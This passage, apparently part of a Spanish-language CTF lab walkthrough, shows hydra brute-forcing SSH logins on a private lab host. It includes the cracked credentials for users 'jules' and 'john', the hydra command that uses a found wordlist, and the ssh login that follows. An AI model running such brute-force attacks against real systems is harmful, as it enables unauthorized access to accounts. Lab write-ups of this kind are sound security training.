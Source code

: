 Si nos metemos como el usuario `jim` y nos metemos por el `ftp` mediante ese usuario, veremos una carpeta llamada `.ssh/` pero no podremos hacer mucho...

Si vemos el `hydra` si descubrio mas usuarios, vemos que descubrio otro usuario mas, llamado `jules`...

```
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.195:22/
[STATUS] 366.00 tries/min, 366 tries in 00:01h, 14344059 to do in 653:12h, 38 active
[STATUS] 259.67 tries/min, 779 tries in 00:03h, 14343653 to do in 920:39h, 31 active
[22][ssh] host: 192.168.5.195   login: jules   password: sexylady
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-20 11:11:58
```

Por lo que inspeccionaremos con ese usuario...

Vemos que hay una carpeta llamada `.backups/` si nos metemos dentro solo habra 2 archivos llenos de diccionario de palabras, llamados `.good-passwd` y `.bad-passwds`, si probamos el archivo `.good-passwd` veremos que no encuentra nada, pero si probamos el archivo `.bad-passwds` veremos lo siguiente...

```shell
hydra -l john -P .bad-passwds ssh://<IP> -t 64
```

Info:

```
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking ssh://192.168.5.195:22/
[22][ssh] host: 192.168.5.195   login: john   password: zhnmju!!!
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-20 11:22:08
```

Por lo que nos conectaremos al `ssh`...

```shell
ssh john@<IP>
```
